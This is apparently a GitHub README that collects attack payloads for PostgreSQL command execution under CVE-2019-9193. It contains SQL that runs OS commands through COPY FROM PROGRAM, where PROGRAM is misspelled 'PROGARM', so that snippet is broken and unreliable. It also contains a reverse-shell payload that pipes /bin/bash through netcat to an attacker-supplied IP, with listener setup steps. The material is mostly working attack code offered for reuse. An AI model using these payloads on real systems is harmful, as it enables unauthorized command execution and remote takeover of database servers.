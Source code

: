 # payloads
Finally got tired of writing the same payloads over and over again.

## Postgres 9.3 > Latest Command Execution: CVE-2019-9193
**Data Exfil via COPY FROM PROGARM and SELECT**

```
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(cmd_output text);
COPY cmd_exec FROM PROGARM 'whoami';
SELECT * FROM cmd_exec;
```

**Reverse Shell via COPY TO PROGRAM**

On attack machine tab1 (shell input):
```
nc -lvp 4444
```

On attack machine tab2 (shell output):
```
nc -lvp 4445
```

On the target run the payload listed below. The shell will close when the SQL
query is complete, so you need to set the number of seconds you want the shell
open for via `pg_sleep`. Also be sure to set the ATTACK_IP.
```
COPY (SELECT pg_sleep(120)) TO PROGRAM 'nc ATTACK_IP 4444 | /bin/bash -i 2>&1 | nc ATTACK_IP 4445;'
```
